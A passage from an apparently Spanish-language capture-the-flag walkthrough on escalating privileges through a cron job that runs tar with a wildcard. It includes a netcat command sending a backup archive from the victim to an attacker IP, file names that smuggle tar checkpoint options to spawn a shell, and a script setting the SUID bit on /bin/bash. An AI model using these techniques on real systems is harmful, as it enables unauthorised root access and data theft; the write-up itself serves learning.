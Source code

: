 vemos que hay dos directorios 

- backup
- development

```bash
cd backup
stat *
stat * | grep "Modify"
```

En el directorio backup vemos que cada 5 minutos una tarea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

1. En la maquina de atacante

    ```bash
    nc -u -nlvp 443 > dev-1627332901.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc -u 10.10.14.20 443 < dev-1627332901.tar.gz
    ```

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un comando del estilo: 
```bash
 tar -cvf backup/test.tar.gz /home/alekos/development/* 
```
.
Aqui el problema es que si el comando es este, el simbolo 
```bash
 * 
```
 permitteria burlar el comando tar con breakpoints. Lo que queremos ejecutar seria
el comando siguiente:

```bash
tar -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh
```

El echo es que si el comando de la tarea cron tiene el asterisco y que ficheros tienen nombres como 
```bash
 --checkpoint=1 
```
 y 
```bash
 --checkpoint-action=exec/bin/sh 
```
,
en vez de copiarlos, los utilizaria como argumentos del proprio comando tar.

```bash
touch privesc
chmod +x privesc

nano privesc

############privesc content##############3

#!/bin/bash

chmod 4755 /bin/bash
```

